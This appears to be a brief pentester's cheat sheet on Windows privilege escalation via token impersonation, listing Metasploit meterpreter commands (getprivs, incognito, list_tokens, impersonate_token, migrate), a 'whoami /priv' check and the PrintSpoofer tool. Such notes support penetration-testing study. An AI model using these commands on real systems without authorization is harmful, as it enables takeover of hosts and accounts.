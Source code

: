 ### msfconsole
after access to system, check getprivs and find SeImpersonatePrivilege, load incognito
```bash
getprivs
load incognito
list_tokens -u
impersonate_token "[Domain]\[User]"
migrate [explorer]
```

```cmd
whoami /priv
```
PrintSpoofer64.exe